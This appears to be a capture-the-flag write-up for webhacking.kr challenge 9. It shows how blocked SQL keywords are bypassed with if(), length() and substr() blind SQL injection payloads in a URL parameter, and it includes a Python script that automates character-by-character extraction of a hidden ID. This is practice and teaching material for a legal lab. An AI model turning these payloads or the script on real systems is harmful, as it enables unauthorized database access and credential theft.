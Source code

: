 Problem9
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-09/>   
 
If you enter the URL, you can see a page like the below photo.   
      
<img src="./image/1.png"/>   

### First, Click 1    

<img src="./image/2.png"/>  

If you click one, you can see a page like this.  
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=1>.     

### Second, Click 2    

<img src="./image/3.png"/>    

If you click two, you can see a page like this.   
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=2>.  
   
### Third, Click 3   

<img src="./image/4.png"/>    

Likewise, only the 'no' value of URL changes to 3.   

Based on that, if you change the value of 'no' to 4, you can see a page like the below photo.   

<img src="./image/11.png"/>    
    
Thus, the specfic text is disappeared.    

#### But, we can know <strong>"column: id, no" and "no 3's id is password"</strong> through this.   
#### In conclusion, if you enter 3's ID in the password, the problem is solved.    
#### Besides, the column have two elements that are 'id' and 'no'.   

Through this, we can think about SQL Injection or Blind SQL Injection.    
So, I tried to enter <strong>union</strong>, <strong>select</strong>, <strong>' or 1=1#</strong> etc...   
But, the page showed <strong>Access Denied</strong> and could not be solved in this way.   

<img src="./image/5.png"/>    
   
Thus, I tried to use <strong>IF STATEMENT</strong> supporting by SQL.    
We can compose IF STATEMENT in the SQL where condition query.     
    
```   
if ( Condition, [Return when true], [Return when false] ) 
```   

Based on that, let's test.   
    
First, URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(5),1,404) 

<img src="./image/6.png"/>    
     
The page correctly prints "Apple". Then, if you change the <strong>if(length(id)like(5),1,404)</strong> to <strong>if(length(id)like(5),2,404)</strong>,    
it will not print the word "Apple".  
   
<img src="./image/7.png"/>   

Second, let's test the second id.  

URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(6),2,404)

The page correctly prints "Banana".   
   
<img src="./image/8.png"/>   
     
Thus, we could find out the string length of third ID in this way.   
In addition, we could find out third ID by using substr function.    

### It's not easy to get to know each one by one, so I wrote the code.   

## Python Code   
   
```  
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1plfje78cfg4142vhfrt3l4lon'}
keywords = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

def HttpRequest(num, text): 
    id_length = 0 
    result = ''
    for i in range(1, 20):
        url='https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({}),{},404)'.format(i,num)
        res = requests.get(url, headers=headers, cookies=cookies)
        if text in res.text: 
            id_length = i
            print('no {}\'s id length: {}'.format(num, i))
            break 
    
    for i in range(1, id_length + 1):
        for key in keywords: 
            url = 'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{},1)like({}),{},404)'.format(i, hex(ord(key)), num)
            res = requests.get(url, headers=headers, cookies=cookies)
            if text in res.text: 
                result += key
                break 
    
    print("no {}\' id: {}".format(num, result))

if __name__== '__main__':
    HttpRequest(3, "Secret")

```    
   
In priority, After obtainning the length of the ID, find out the ID through keywords.   
In the result, we can obtain the third ID like this.     
      
### If you find it difficult to understand the code, refer to the below URL.  
Python Request Module: <https://hongku.tistory.com/292>    

<img src="./image/12.png"/>   

Thus, if you enter it to password, it will be solved like this.    
    
<img src="./image/10.png"/>   
    
 




